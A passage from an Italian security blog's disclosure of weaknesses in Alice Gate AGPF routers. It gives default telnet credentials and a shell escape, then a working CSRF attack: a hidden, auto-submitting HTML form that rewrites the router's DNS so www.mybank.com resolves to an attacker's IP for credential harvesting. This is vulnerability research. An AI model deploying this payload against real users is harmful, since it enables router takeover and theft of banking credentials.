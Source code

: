 E la porta telnet è aperta. Colleghiamoci alla porta 23 con il comando `telnet 192.168.1.1` utilizzando come username *admin* e come password *riattizzati*. Con il comando `help` si vedono i comandi disponibili, e con `system shell` si spawna una shell busybox nel Linux installato. Suggerisco di aprire le interfacce di amministrazione principali quali telnet e menù avanzato di amministrazione per poi gestire comodatemente le altre configurazioni senza dover fare POST request ogni volta. 

<h1 id="CSRF"> CSRF </h1>

La tecnica di riconfigurazione descritta sopra via semplice richiesta POST si presta perfettamente ad un attacco [CSRF](http://it.wikipedia.org/wiki/Cross-site_request_forgery) con cui forzare il browser di un utente vittima a effettuare una richiesta volta a prendere il controllo del suo router. Le condizioni necessarie a un attacco sono abilitate di default:

- Nessuna autenticazione è richiesta per accedere all'interfaccia web
- Nessun token anti CSRF è utilizzato

E' quindi sufficiante forgiare una pagina web e farci accedere il malcapitato per effettuare un qualsiasi attacco come quelli descritti nell'[articolo]({{ get_url("/2012/09/02/alice-gate-agpf-csrf-reconf-vulnerability") }}) introduttivo. Intercettare le connessioni sottraendo le credenziali di mail, siti social, home banking etc. è uno degli attacchi più semplici da effettuare: poichè gli host collegati alla rete interna del router utilizzano come DNS server il router stesso, è sufficiente aggiungere una entry per deviare le connessioni verso un sito clone, o un reverse proxy, con cui raccogliere le credenziali degli utenti vulnerabili. 

Vediamo come preparare una pagina HTML, che quando visualizzata da un utente vulnerabile configura il router in modo che rediriga tutte le connessioni successive a *www.mybank.com* verso *disse.cting.org*, questo blog.

~~~ { php }
(stack_set
  (0
    (path(dns/entry))
    (index(-1))
    (set
      (-1
        (ip(109.168.126.241))
        (hostname(www.mybank.com))
      )
    )
  )
)
~~~

Una volta assicurati che la richiesta POST è corretta (attenzione, richieste sbagliate potrebbero corrompere il file di configurazione e rendere il modem inutilizzabile) prepariamo il form per l'autoesecuzione del CSRF:

~~~ { html }

<FORM action="http://192.168.1.1/admin.cgi" method="post">
<INPUT type=HIDDEN name="active_page" value="9130">
<INPUT type=HIDDEN name="page_title" value="Alice - Info">
<INPUT type=HIDDEN name="mimic_button_field" value="submit_button_avanti: avanti..">
<INPUT type=HIDDEN name="button_value" value="attiva">
<INPUT type=HIDDEN name="strip_page_top" value="0">
<INPUT type=HIDDEN name="stack_set" value="(stack_set
  (0
    (path(dns/entry))
    (index(-1))
    (set
      (-1
        (ip(109.168.126.241))
        (hostname(www.mybank.com))
      )
    )
  )
)
">
~~~